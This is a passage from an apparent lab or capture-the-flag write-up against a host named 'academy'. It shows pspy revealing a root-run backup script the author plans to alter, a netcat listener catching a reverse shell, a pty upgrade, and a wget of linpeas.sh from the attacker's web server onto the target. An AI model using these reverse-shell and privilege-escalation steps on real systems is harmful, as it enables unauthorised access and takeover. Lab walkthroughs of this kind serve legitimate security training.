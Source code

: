 ~~~
2022/08/18 06:48:01 CMD: UID=0    PID=3148   | /bin/bash /home/grimmie/backup.sh 
2022/08/18 06:48:01 CMD: UID=0    PID=3149   | /bin/bash /home/grimmie/backup.sh 
2022/08/18 06:48:01 CMD: UID=0    PID=3150   | /bin/bash /home/grimmie/backup.sh 
^C
~~~
PSPY gathered multiple processes and hile checking them I noticed *PID=3141* executing the following: **/bin/sh -c /home/grimmie/backup.sh** executed by UID=0.
This proofs that my thoughts where correct and I should find a way to change this file with a command that makes a connection to my listener.
I stopped my shell with the **CTRL + C** key combo to stop pspy. This brings me back to starting a reverse shell again.
~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 192.168.138.5.
Ncat: Connection from 192.168.138.5:35008.
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 06:56:31 up  3:53,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@academy:/$ 
~~~

After establishing a reverse shell again I started the python webserver on my machine.
~~~
┌──(emvee㉿kali)-[~/transfer]
└─$ sudo python3 -m http.server 80
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~
After starting the webserver, I had to change the working directory to **/tmp** again and download **linpeas.sh** to the target and set the permission to executable.
~~~
www-data@academy:/tmp$ wget http://192.168.138.4/linpeas.sh
wget http://192.168.138.4/linpeas.sh
--2022-08-18 07:48:12--  http://192.168.138.4/linpeas.sh
Connecting to 192.168.138.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 807167 (788K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 788.25K  --.-KB/s    in 0.004s  

2022-08-18 07:48:12 (176 MB/s) - 'linpeas.sh' saved [807167/807167]

www-data@academy:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
~~~
